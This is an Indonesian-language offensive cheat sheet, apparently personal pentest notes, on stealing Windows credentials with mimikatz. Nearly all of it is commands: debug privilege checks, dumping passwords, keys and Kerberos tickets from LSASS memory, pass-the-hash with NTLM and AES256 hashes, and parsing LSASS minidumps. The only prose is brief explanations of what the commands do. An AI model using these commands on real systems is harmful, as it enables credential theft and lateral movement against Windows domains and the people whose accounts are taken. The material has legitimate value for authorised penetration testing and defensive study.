 # Windows Environment
#windows #attack

## Windows Basic





## Kredensial
Mencuri kredensial dengan mimikatz
https://github.com/gentilkiwi/mimikatz/wiki

Inisialisasi
```sh
# jalankan mimikatz
.\mimikatz.exe

# testing apakah privilege cukup
privilege::debug 
```

### sekurlsa
https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa

Modul ini mengambil password, pin, key , dan ticket melalui memori dari lsass (Local Security Authority Subsystem Service). Membutuhkan akun administrator atau system.
```sh
# testing log
log sekurlsa.log

# mencari kredensial pada LSASS.exe
sekurlsa::logonpasswords

# pass-the-hash, kamu juga bisa menggunakan /rc4:rc4hash
sekurlsa:pth /user:username /domain:domain.local /ntlm:ntlmhash

# pass-the-hash menggunakan aes256
sekurlsa::pth /user:Administrateur /domain:chocolate.local /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9

# mencuri tiket Kerberos dari semua sesi
sekurlsa::tickets /export

sekurlsa::kerberos

sekurlsa::ekeys

sekurlsa::dpapi

# minidump untuk Windows 2000, XP, Vista, dan 8. Windows Server 2003-2008
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

